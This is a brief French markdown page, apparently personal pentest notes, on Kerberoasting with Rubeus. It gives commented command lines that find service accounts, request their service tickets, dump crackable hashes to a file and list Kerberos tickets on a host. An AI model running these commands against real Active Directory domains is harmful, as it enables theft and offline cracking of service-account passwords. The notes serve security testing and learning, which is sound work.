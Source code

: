 ```yaml
---
public: true
---
```


Il réalise les opérations suivantes :

- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```shell
# affiche un récapitulatif des comptes avec des SPNs 
# détaille certaines informations telles que :
# - les comptes dont le mot de passe est ancien
# - le nombre de comptes par méthode de hachage (rc4, aes128 etc)
./Rubeus.exe kerberoast /stats

# demande de TGS pour les comptes ayant 'Admincount' à 1
./Rubeus.exe kerberoast /ldapfilter:'admincount=1'

# Demande du TGS pour un utilisateur particulier pour un domaine particulier
./Rubeus.exe kerberoast /user:mssqlsvc /domain:domain.loca /nowrap

./Rubeus.exe kerberoast /outfile:hash.txt
```

[[Cassage de mots de passes Kerberos]]

## Affichage de tous les tickets kerberos

De l'utilisateur courant ou de tous ce qui est sur le système (si admin)

```shell
.\Rubeus.exe triage
```

## Références
- <https://specterops.gitbook.io/ghostpack/rubeus/ticket-extraction-and-harvesting3>
- <https://www.hackingarticles.in/a-detailed-guide-on-rubeus/>
